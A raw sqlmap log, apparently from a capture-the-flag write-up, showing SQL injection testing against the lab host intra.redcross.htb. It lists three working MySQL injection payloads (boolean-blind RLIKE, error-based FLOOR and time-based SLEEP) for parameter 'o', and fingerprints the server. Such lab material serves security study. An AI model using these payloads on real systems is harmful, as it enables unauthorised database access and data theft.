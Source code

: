 ```
[23:13:41] [INFO] testing 'MySQL inline queries'
[23:13:41] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[23:13:42] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[23:13:43] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[23:13:43] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[23:13:44] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[23:13:44] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[23:13:45] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[23:13:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[23:14:18] [INFO] GET parameter 'o' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable
[23:14:18] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:14:19] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:14:32] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[23:14:33] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[23:14:36] [INFO] target URL appears to have 4 columns in query
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[23:15:03] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[23:15:16] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[23:15:44] [INFO] testing 'MySQL UNION query (50) - 21 to 40 columns'
[23:15:57] [INFO] testing 'MySQL UNION query (50) - 41 to 60 columns'
[23:16:09] [INFO] testing 'MySQL UNION query (50) - 61 to 80 columns'
[23:16:22] [INFO] testing 'MySQL UNION query (100) - 81 to 100 columns'
GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 379 HTTP(s) requests:
---
Parameter: o (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: o=1') RLIKE (SELECT (CASE WHEN (8600=8600) THEN 1 ELSE 0x28 END)) AND ('enlR'='enlR&page=app

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=1') AND (SELECT 8275 FROM(SELECT COUNT(*),CONCAT(0x7162766b71,(SELECT (ELT(8275=8275,1))),0x71766a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND ('vOvX'='vOvX&page=app

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: o=1') AND SLEEP(5) AND ('YqZg'='YqZg&page=app
---
[23:16:40] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:16:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[23:16:40] [INFO] fetched data logged to text files under '/home/xbytemx/.sqlmap/output/intra.redcross.htb'

[*] ending @ 23:16:40 /2019-03-18/
```
